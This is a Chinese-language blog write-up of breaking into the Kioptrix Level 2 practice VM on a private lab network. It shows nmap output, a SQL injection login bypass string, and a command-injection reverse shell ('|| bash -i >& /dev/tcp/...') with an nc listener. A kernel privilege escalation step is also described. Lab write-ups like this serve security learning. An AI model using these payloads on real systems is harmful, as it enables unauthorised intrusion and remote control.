







+++
date = '2026-06-29T21:27:43+08:00'
draft = false
title = 'kioptix level 2'
+++

kali网卡ip    192.168.159.128/24

## 信息收集

**发现主机**

直接扫描192.168.159.0/24网段发现目标ip是192.168.159.135

**端口扫描，服务探测，版本**



```
└─$ nmap 192.168.159.135 -sV -sC -p- 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-29 19:32 +0800
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 28.57% done; ETC: 19:32 (0:00:15 remaining)
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 71.43% done; ETC: 19:32 (0:00:04 remaining)
Nmap scan report for 192.168.159.135
Host is up (0.00028s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            786/udp   status
|_  100024  1            789/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_ssl-date: 2026-06-29T08:23:47+00:00; -3h08m58s from scanner time.
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
789/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:25:CE:9C (VMware)

Host script results:
|_clock-skew: -3h08m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.91 seconds
## 默认脚本去做的版本探测，
```

现在去访问web页面，发现是一个登陆页面，简单试了一下，应该是有sql注入点的，现在做一个扫描网站目录扫描



尝试这个返回200的目录，打开发现是一个apache页面，

## 反弹shell

之前发现的3306端口是一个mysql数据库，现在回到刚才的登陆页面去尝试sql注入

直接使用永真表达式来绕过**admin' OR '1'='1  **这个来绕过登录



进来发现是一个这个ping，输入我的kali主机ip上去能ping成功，但是发现这个必须要先输入ip地址进去，才ping，正常拿不到shell，尝试一下管道符，|  这个东西虽然现在能执行bash命令了，但是在反弹shell的时候出现了问题，直接把我的命令给打印在了网页上，使用|| 直接反弹shell成功

```
|| bash -i >& /dev/tcp/192.168.159.128/5000 0>&1
#然后再kali上建立连接 监听5000
nc -lvnp 5000
```



## 提权（本地提权）

根据信息收集，拿到的信息有LInux内核版本是Linux Kernel 2.6   ,这个靶机是Centos，去搜索一下



根据拿到的shell去尝试提权



不知道为什么在kali上都能成功编译运行啥的，但是在我拿到的shell上就不能下载下来，一直显示permission denied,去尝试其他的。但是我现在我发现我去下载其他东西不能下载，下载大概知道了，这个shell用户没有权限在当前目录创建文件，cd /tmp 文件就能解决问题



到这终于提权成功


